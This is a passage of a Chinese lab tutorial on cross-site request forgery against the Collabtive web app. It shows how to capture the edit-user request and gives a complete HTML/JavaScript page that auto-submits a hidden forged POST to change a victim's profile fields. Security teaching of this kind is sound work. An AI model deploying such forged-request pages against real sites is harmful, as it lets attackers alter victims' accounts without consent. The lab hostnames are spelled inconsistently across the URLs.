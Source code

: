 step2:访问 www.csrflabcollabtive.com并进行登录。

&gt;用户：admin 密码：admin

step3:我们登陆了自己的用户，当我们希望可以修改别人的用户时，我们需要知道修改数据时的数据流，这个时候我们可以使用firefox浏览器自带的LiveHttpHeader插件来进行抓包获取修改用户时候的http消息；

点击菜单栏tools-LiveHttpHeader，然后访问编辑用户页面；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077485549?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077497500?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

通过抓取的信息，我们可以得知：

验证页面：http://www.csfrlabcollabtive.com/manageuser.php?action=edit

用户姓名id:name；company；email等等信息我们都可以进行修改；

**这里最好使用其他用户进行测试**

但是用户修改用户的方式post提交，我们就需要自己构造一个危险页面

```
&gt;     &lt;html&gt;&lt;body&gt;&lt;h1&gt;
&gt;     This page forges an HTTP POST request.
&gt;     &lt;/h1&gt;
&gt;     &lt;script&gt;
&gt;     function post(url,fields)
&gt;     {
&gt;     //create a &lt;formelement.
&gt;     var p = document.createElement(&#39;form&#39;);
&gt;     //construct the form
&gt;     p.action = url;
&gt;     p.innerHTML = fields;
&gt;     p.target = &#39;_self&#39;;
&gt;     p.method = &#39;post&#39;;
&gt;     //append the form to the current page.
&gt;     document.body.appendChild(p);
&gt;     //submit the form
&gt;     p.submit();
&gt;     }
&gt;     function csrf_hack()
&gt;     {
&gt;     var fields;
&gt;     // The following are form entries that need to be filled out
&gt;     // by attackers. The entries are made hidden, so the victim
&gt;     // won&#39;t be able to see them.
&gt;     fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;name&#39; value=&#39;peter&#39;&gt;&#34;; //修改用户名
&gt;     fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;userfile&#39; value=&#39;&#39;&gt;&#34;;  
&gt;     fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;company&#39; value=&#39;seed&#39;&gt;&#34;;  //修改公司名
&gt;     post(&#39;http://www.csrflabcollabtive/manageuser.php?action=edit&#39;,fields);
&gt;     }
&gt;     // invoke csrf_hack() after the page is loaded.
&gt;     window.onload = function() { csrf_hack(); }
&gt;     &lt;/script&gt;
&gt;     &lt;/body&gt;&lt;/html&gt;
```
